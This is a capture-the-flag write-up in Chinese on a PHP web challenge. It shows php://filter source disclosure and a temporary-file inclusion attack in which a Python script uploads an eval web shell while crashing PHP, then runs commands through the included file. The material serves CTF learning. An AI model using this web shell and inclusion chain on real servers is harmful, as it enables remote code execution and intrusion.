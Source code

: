 ![](<./img/Pasted image 20230121101659.png>)

```
/index.php
```

```
username/password error
```

![](<./img/Pasted image 20230121101833.png>)

![](<./img/Pasted image 20230121102812.png>)

```
/index.php?pass=fa25e54758d5d5c1927781a6ede89f8a
```

![](<./img/Pasted image 20230121103010.png>)

![](<./img/Pasted image 20230121103329.png>)

```
/flflflflag.php
```

```html
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
include($_GET["file"])</body>
</html>
```

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=flflflflag.php
```

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

`flag`并不在这里

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
	echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
	</script>
';
}else{
	setcookie("Hash",md5($secret.$name),time()+3600000);
	echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=config.php
```

```php
<?php
$secret='%^$&$#fffdflag_is_not_here_ha_ha';
?>
```

死胡同.jpg

---

# php临时文件包含

![](<./img/Pasted image 20230121111807.png>)

扫目录能扫到`dir.php`

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=dir.php
```

```php
<?php
var_dump(scandir('/tmp'));
?>
```

通过`dir.php`可以查看`/tmp`目录下的文件

![](<./img/Pasted image 20230121113234.png>)

`php`在接收`POST`上传的文件之后会把文件先放在临时目录下面，之后再通过`move_uploaded_file`之类的操作移动到别的地方

利用`php7`部分版本的一个`bug`可以让`php`崩溃，于是上传的文件滞留在临时目录而不会被自动删除

```
/flflflflag.php?file=php://filter/read=string.strip_tags/resource=/etc/passwd
```

```python
import requests

url = 'http://b1eb74ce-6032-4d09-a41d-7de34a780ed4.node4.buuoj.cn:81/flflflflag.php?file=php://filter/read=string.strip_tags/resource=/etc/passwd'
payload = "<?php eval($_GET['cmd']); ?>"
files = {'shell.php': payload.encode()}

requests.post(url, files=files)
```

```
/dir.php
```

```php
array(3) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(9) "phpjyG5mT"
}
```

```
/flflflflag.php?file=/tmp/phpjyG5mT&cmd=phpinfo();
```

![](<./img/Pasted image 20230121115152.png>)

#Web #PHP #目录扫描 #源码泄漏 #伪协议 #Vulnerabilities #文件上传